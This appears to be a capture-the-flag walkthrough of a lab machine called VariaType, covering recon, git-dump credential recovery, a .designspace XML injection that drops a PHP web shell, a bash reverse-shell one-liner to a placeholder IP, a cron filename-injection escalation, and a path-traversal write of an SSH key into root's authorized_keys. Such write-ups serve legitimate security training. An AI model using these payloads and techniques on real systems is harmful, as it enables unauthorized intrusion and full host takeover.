

# Varia Type (1)

## Nmap

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 e0:b2:eb:88:e3:6a:dd:4c:db:c1:38:65:46:b5:3a:1e (ECDSA)
|_  256 ee:d2:bb:81:4d:a2:8f:df:1c:50:bc:e1:0e:0a:d1:22 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to [http://variatype.htb/](http://variatype.htb/)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Just quick nmap scan → p 22,80
- Add ‘’[variatype.ht](http://variatype.ht)b’’ into /etc/hosts

## DIRECTORY

ffuf -u [http://variatype.htb/FUZZ](http://variatype.htb/FUZZ) -w /usr/share/dirb/wordlists/common.txt

```
    /'___\\  /'___\\           /'___\\
   /\\ \\__/ /\\ \\__/  __  __  /\\ \\__/
   \\ \\ ,__\\\\ \\ ,__\\/\\ \\/\\ \\ \\ \\ ,__\\
    \\ \\ \\_/ \\ \\ \\_/\\ \\ \\_\\ \\ \\ \\ \\_/
     \\ \\_\\   \\ \\_\\  \\ \\____/  \\ \\_\\
      \\/_/    \\/_/   \\/___/    \\/_/

   v2.1.0-dev
```

---

:: Method           : GET
:: URL              : [http://variatype.htb/FUZZ](http://variatype.htb/FUZZ)
:: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500

---

```
                    [Status: 200, Size: 2321, Words: 337, Lines: 60, Duration: 196ms]
```

services                [Status: 200, Size: 3339, Words: 548, Lines: 84, Duration: 198ms]
:: Progress: [4614/4614] :: Job [1/1] :: 197 req/sec :: Duration: [0:00:24] :: Errors: 0 ::

## Subdomain

portal.variatype.htb 

Key info “IT Support at it-support@variatype.internal” “Reference: VT-VALID-2.1.4 ”

## Further recon on subdomain

┌──(mikey㉿Mikey)-[~]
└─$ ffuf -u [http://portal.variatype.htb/FUZZ](http://portal.variatype.htb/FUZZ) -w /usr/share/dirb/wordlists/common.txt

```
    /'___\\  /'___\\           /'___\\
   /\\ \\__/ /\\ \\__/  __  __  /\\ \\__/
   \\ \\ ,__\\\\ \\ ,__\\/\\ \\/\\ \\ \\ \\ ,__\\
    \\ \\ \\_/ \\ \\ \\_/\\ \\ \\_\\ \\ \\ \\ \\_/
     \\ \\_\\   \\ \\_\\  \\ \\____/  \\ \\_\\
      \\/_/    \\/_/   \\/___/    \\/_/

   v2.1.0-dev
```

---

:: Method           : GET
:: URL              : [http://portal.variatype.htb/FUZZ](http://portal.variatype.htb/FUZZ)
:: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200-299,301,302,307,401,403,405,500

---

```
                    [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 216ms]
```

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 382ms]
files                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 234ms]
index.php               [Status: 200, Size: 2494, Words: 445, Lines: 59, Duration: 176ms]
:: Progress: [4614/4614] :: Job [1/1] :: 166 req/sec :: Duration: [0:00:23] :: Errors: 0 ::

## .git exposed

Next step to use git-dumper 

```jsx
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~]
└─$ cd dump
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ ls
auth.php
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ cat auth.php                                                        
<?php
session_start();
$USERS = [];
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        modified:   auth.php                                                                                                                                              
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ git checkout master
M       auth.php
Already on 'master'
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ tree                      
.
└── auth.php

1 directory, 1 file
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ git log --oneline
753b5f5 (HEAD -> master) fix: add gitbot user for automated validation pipeline
5030e79 feat: initial portal implementation
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ git show HEAD~1
commit 5030e791b764cb2a50fcb3e2279fea9737444870
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:57:57 2025 -0500

    feat: initial portal implementation

diff --git a/auth.php b/auth.php
new file mode 100644
index 0000000..615e621
--- /dev/null
+++ b/auth.php
@@ -0,0 +1,3 @@
+<?php
+session_start();
+$USERS = [];
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ git log -p auth.php
commit 753b5f5957f2020480a19bf29a0ebc80267a4a3d (HEAD -> master)
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:59:33 2025 -0500

    fix: add gitbot user for automated validation pipeline

diff --git a/auth.php b/auth.php
index 615e621..b328305 100644
--- a/auth.php
+++ b/auth.php
@@ -1,3 +1,5 @@
 <?php
 session_start();
-$USERS = [];
+$USERS = [
+    'gitbot' => 'G1tB0t_Acc3ss_2025!'
+];

commit 5030e791b764cb2a50fcb3e2279fea9737444870
Author: Dev Team <dev@variatype.htb>
Date:   Fri Dec 5 15:57:57 2025 -0500

    feat: initial portal implementation

diff --git a/auth.php b/auth.php
new file mode 100644
index 0000000..615e621
--- /dev/null
+++ b/auth.php
@@ -0,0 +1,3 @@
+<?php
+session_start();
+$USERS = [];
                                                                                                                                                            
┌──(mikey㉿Mikey)-[~/dump]
└─$ 

```

## Finding

- 'gitbot' => 'G1tB0t_Acc3ss_2025!'
- **Username:** `gitbot`
- **Password:** `G1tB0t_Acc3ss_2025!`

Let’s head over and try to login 

[http://portal.variatype.htb](http://portal.variatype.htb/)

Nothing, Seems the font we make on main site shows up here 



Let’s head over to main dashbaord and upload some dummy files.

Got error 

Can’t upload even for understanding functionaility…


[https://app.notion.com](https://app.notion.com)

Blind.. searching for .designspace related vulnerabilities


Finding poc


Modifying file —> .designspace

```jsx
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
    <axes>
        <!-- XML injection occurs in labelname elements with CDATA sections -->
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en"><![CDATA[<?php echo shell_exec("COMMAND");?>]]]]><![CDATA[>]]></labelname>
            <labelname xml:lang="fr">MEOW2</labelname>
        </axis>
    </axes>
    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
    <sources>
        <source filename="source-light.ttf" name="Light">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
        </source>
        <source filename="source-regular.ttf" name="Regular">
            <location>
                <dimension name="Weight" xvalue="400"/>
            </location>
        </source>
    </sources>
    <variable-fonts>
             <variable-font name="MyFont" filename="/var/www/portal.variatype.htb/public/files/shell.php">
            <axis-subsets>
                <axis-subset name="Weight"/>
            </axis-subsets>
        </variable-font>
    </variable-fonts>
    <instances>
        <instance name="Display Thin" familyname="MyFont" stylename="Thin">
            <location><dimension name="Weight" xvalue="100"/></location>
            <labelname xml:lang="en">Display Thin</labelname>
        </instance>
    </instances>
</designspace>
```

[https://app.notion.com](https://app.notion.com)


## Shell

Setup listener

```jsx
nc -lvnp 4444
```

Change the payload according to your ip

```jsx
<?php echo shell_exec("bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'");?>
```


- Enumerated `/opt` and found a backup script:
    
    ```
    /opt/process_client_submissions.bak
    ```
    
- Reading it revealed a file-processing loop.
- The loop used **unquoted shell expansion**:
    
    ```
    for filein$ext
    ```
    
- Because filenames were expanded by the shell, **command substitution inside filenames could execute arbitrary commands**.
- Since the script runs as **steve via cron**, placing a malicious file in the processed directory allowed **privilege escalation**.


Run the python file to make malicious zip file 

Upload it to shell


Start listener and you’ll catch the shell when cron execute 


# ROOT

```
sudo-l
```

Output:

```
(root) NOPASSWD: /usr/bin/python3 /opt/font-tools/install_validator.py *
```

This indicates that the user **steve can run the script `install_validator.py` as root with arbitrary arguments**.

## Understanding the vulnerability

Inside the script:

```
downloaded_path=index.download(plugin_url,PLUGIN_DIR)
```

`PackageIndex.download()` saves the downloaded content **based on the URL path**.

If we supply a URL containing an **encoded path**, the library will write the downloaded file **outside the intended directory**.

Example target:

```
/root/.ssh/authorized_keys
```

If we can write there, we can **add our own SSH key and login as root**.

## Generate SSH key


Prepare and host file on http server 


[server.py](http://server.py) 

```jsx
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        with open('authorized_keys', 'rb') as f:
            data = f.read()

        self.send_response(200)
        self.send_header('Content-Type','text/plain')
        self.send_header('Content-Length',len(data))
        self.end_headers()

        self.wfile.write(data)

HTTPServer(('0.0.0.0',8888),Handler).serve_forever()
```

## Exploit

Url encoded “/root/.ssh/authorized_keys”
 causes the script to **download our SSH key and write it into root's authorized_keys file**


## Root

Login as root 

/image.png)